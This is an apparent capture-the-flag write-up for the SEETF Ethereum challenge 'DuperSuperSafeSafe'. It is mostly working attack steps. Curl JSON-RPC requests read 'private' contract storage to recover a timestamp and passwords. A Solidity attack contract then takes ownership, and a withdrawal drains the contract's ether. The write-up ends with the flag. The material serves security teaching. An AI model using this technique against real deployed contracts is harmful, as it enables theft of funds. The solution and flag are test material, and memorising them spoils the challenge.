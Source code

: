 # DuperSuperSafeSafe - Solution

**Author**: AtlanticBase

**Category**: Ethereum

This challenge requires you to make use of how blockchain stores information. Setting your variable private doesn't mean that it is private as you can still view it through other ways.

It requires you to know the `EVM storage layout`.

First, you will need to change the owner. In order to pass the condition, you will have to create a contract to call the function.

In order to get the timestamp,

```bash
curl --location --request POST 'awesome.chall.seetf.sg:40002/' \
--header 'Content-Type: application/json' \
--data-raw '{
	"jsonrpc":"2.0",
	"method": "eth_getStorageAt",
	"params": [
		"0x0E161f71f41baF3883a2CE0fe04cbaddb5259791",
		"0x2",
		"latest"
	],
	"id": 1
}'
```

You will get

`{"jsonrpc":"2.0","id":1,"result":"0x0000000000000000000000000000000000000000000000000000000062905ffd"}`

If you convert the result to decimal, you will get the epoch timestamp.

E.G. `1653628925`

Now, in order to get the passwords, you will need to understand how the mapping works.

Based on the code, the mapping variable is in the second slot of the storage.

However, solidity just uses that as a pointer to the actual data.

You will need to hash the slot (`0x1`) and the key of the mapping variable (`0x0`) to get the value.

You can use `web3` to calculate the hash

`web3.utils.soliditySha3(0, 1)`

The value is `0xa6eef7e35abe7026729641147f7915573c7e97b47efa546f5f6e3230263bcb49`

```bash
curl --location --request POST 'awesome.chall.seetf.sg:40002/' \
--header 'Content-Type: application/json' \
--data-raw '{
	"jsonrpc":"2.0",
	"method": "eth_getStorageAt",
	"params": [
		"0x0E161f71f41baF3883a2CE0fe04cbaddb5259791",
		"0xa6eef7e35abe7026729641147f7915573c7e97b47efa546f5f6e3230263bcb49",
		"latest"
	],
	"id": 1
}'
```

Then you will get `0x57617979616e6700000000000000000000000000000000000000000000000000`

In order to convert it to text, you can use
`web3.utils.hexToUtf8("0x57617979616e6700000000000000000000000000000000000000000000000000")`

Second slot,

`web3.utils.soliditySha3(1, 1)`

The value is `0xcc69885fda6bcc1a4ace058b4a62bf5e179ea78fd58a1ccd71c22cc9b688792f`

```bash
curl --location --request POST 'awesome.chall.seetf.sg:40002/' \
--header 'Content-Type: application/json' \
--data-raw '{
	"jsonrpc":"2.0",
	"method": "eth_getStorageAt",
	"params": [
		"0x0E161f71f41baF3883a2CE0fe04cbaddb5259791",
		"0xcc69885fda6bcc1a4ace058b4a62bf5e179ea78fd58a1ccd71c22cc9b688792f",
		"latest"
	],
	"id": 1
}'
```

The result is `{"jsonrpc":"2.0","id":1,"result":"0x4375746500000000000000000000000000000000000000000000000000000000"}`

Converting it to text, `Cute`.

Create an Attack Contract to call the `changeOwner` function

```javascript
contract DSSSAttack {

    DuperSuperSafeSafe dsss;

    constructor() {
        dsss = DuperSuperSafeSafe(payable(0x0E161f71f41baF3883a2CE0fe04cbaddb5259791));
        dsss.changeOwner([address]);
    }
}
```

After the owner is changed, you can call the `withdrawFunds` method directly as the EOA is the owner.

To solve, drain all the 0.3 ether in the contract.

Flag: `SEE{B10cKcH41n_I5_sUp3r_53cuRe!}`
